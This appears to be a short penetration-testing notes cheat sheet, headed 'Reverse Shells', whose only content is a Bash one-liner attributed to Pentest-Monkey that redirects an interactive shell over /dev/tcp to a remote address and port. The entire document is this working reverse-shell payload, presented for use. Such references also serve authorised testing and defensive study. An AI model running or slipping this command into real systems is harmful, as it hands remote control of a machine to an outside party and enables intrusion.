 # Notes Cheat sheet

## Reverse Shells


###### *Bash*
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
**Pentest-Monkey**
